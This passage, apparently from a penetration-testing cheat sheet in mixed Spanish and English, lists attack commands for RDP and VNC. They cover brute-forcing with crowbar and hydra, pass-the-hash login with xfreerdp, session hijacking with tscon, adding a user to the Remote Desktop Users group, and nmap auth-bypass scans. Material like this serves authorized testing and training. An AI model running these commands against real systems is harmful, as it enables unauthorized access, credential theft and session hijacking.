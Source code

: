 ```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

#### Conectarte con contraseña o hashes

```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

#### Session stealing

##### Get openned sessions

```
query user
```

##### Access to the selected 

```
tscon <ID> /dest:<SESSIONNAME>
```

#### Adding user to RDP group (Windows) 

```
net localgroup "Remote Desktop Users" <USER> /add
```

---

### VNC  -> 5800, 58001, 5900, 59001

#### Escaneo

``` 
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```

#### Fuerza bruta

```
hydra -L <USERS_LIST> –P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
```

#### Conectarte

```
vncviewer <IP>:<PORT>
```
